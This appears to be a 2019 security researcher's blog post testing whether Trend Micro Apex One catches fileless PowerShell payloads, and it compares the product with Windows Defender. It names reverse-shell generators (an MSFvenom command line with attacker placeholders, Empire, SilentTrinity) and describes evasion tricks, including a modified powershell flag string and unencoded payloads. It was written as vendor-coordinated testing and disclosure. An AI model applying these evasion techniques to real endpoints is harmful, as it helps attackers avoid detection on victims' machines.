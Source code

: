 # Bypassing Trend Micro Apex One

![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

## Background

Here's the [solution brief](www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html?modal=overview-apex-f2049a) about Apex One.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff.

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, and then checked again for the hell of it. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end.

![bms](Post%20Images/TMAO-Bypass-imgs/misc-imgs/BMS.PNG)
![scs](Post%20Images/TMAO-Bypass-imgs/misc-imgs/SCS.PNG)

## Testing

I wanted to test Apex One to see if it works as advertised, rather than setting it up, changing necessary settings and forgetting about it. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell via an exploit, recovered creds that allows for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to skate around Apex. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was alerting and blocking anything malicious that touched the disk. However, things started going downhill when I started testing file-less payloads or ones that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would alert on it. All I wanted to do was to make sure it was stopping known or old payloads and tools.

### Tools and payloads that were used to bypass Apex One

* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


## MSFVenom cmd/windows/reverse_powershell

![msfv_1](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_kalivm.PNG)
![msfv_2](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod.PNG)
![msfv_3](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfvenom_payload.PNG)
![msfv_4](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass.PNG)
![msfv_6](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass2.PNG)

## Observations & Anomalies

## PowerShell Empire

I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on having Apex detect the MSFvenom cmd/windows/reverse_powershell payload). Apex received the patch on May 8th and I was still able to get around Apex with Empire. On the 23rd of May, Apex had for the first time in my environment, successfully prevented the callback to Empire. Everything was fine and dandy until on June 5th, I tested Apex again for the sake of consistency. Apex once again failed to prevent the callback the Empire instance running on my Kali machine. At this time I noticed that the IP on my Kali box had changed. Thus, began the trend of inconsistencies.

While testing after the 5th of June, I noticed three things. The first one is that changing the IP of my Kali machine looked like it had some role in Empire being successful again, but I highly doubt it would be that simple to outmaneuver and EDR solution like that. The second anomaly was the effect of base64 encoded payloads. When using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec, Apex One was alerting on it. Apex seems to ignore it if I just straight up generate the payload with MSFvenom with no encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. Before the May 8th patch, the opposite seemed to be occurring when using the base64 encoded PowerShell payload generated from the launcher command in Empire. With this in mind, I decided to decode the base64 encoded payload Empire produced. It seemed to have worked for a short while before Apex catched on and started blocking it.

The third and final anomaly that has been the most consistent in getting me around Apex since the update is simply changing the [flags](https://docs.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Core/About/about_PowerShell_exe?view=powershell-5.1). These flags are used with the `powershell` command before the base64 encoded payload body. Based on my observations during testing, Apex is very inconsistent when alerting on this method. Sometimes it will alert if I leave the default flags `powershell -w hidden -noP`. Sometimes it will alert if I tweak them. Sometimes it won't alert either way. I'm not exactly sure why this is though. My guess is that the *'machine learning'* component of Apex is not up to snuff and could use some more work. I even used some of the modules that Empire provided thinking that Apex would alert on those. Unfortunately, when using some of the modules like `powershell/privesc/ask`, Apex did not alert on any of them.

#### Default payload generation

![PSE_default_bypass](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/default2.PNG)
![PSE_default_privesc](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/privesc_success2.PNG)

#### Payload tweak & modification

Note the following: `powershell -executionpolicy unrestricted -nologo -noexit -noninteractive -encoded`

![PSE_mod](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/pse_tweak.PNG)


## A Shocking Revelation

During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1803 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute trash, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1803 were able to block almost everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the GitHub link.

![Github One-liner](Post%20Images/TMAO-Bypass-imgs/misc-imgs/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I did receive an error message telling me that the PowerShell stager with the embedded interpreter for the Boo Lang or Iron Python based payload and the MSBuild.xml stagers failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

# Updates

## Update #1: June 21st 2019

1. Currently, Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory.
2. Currently, Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via a .NET language, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.
* Microsoft's Windows Defender via the latest Windows 10 build (1903) does a suprisingly better job.

## Update #2: June 26th 2019

Apex One seems to be consistently alerting on PowerShell Empire payloads in which I don't change or modify the default launcher value when setting up a listener. However, upon speaking with the team at Trend Micro, they informed me that they would have to open another ticket. I guess that means the simple technique I was using by changing the flags used with the PowerShell command is a separate and completely new issue. So, I basically found a way to bypass the update that was pushed out on May 8th before the day was over with. campfire
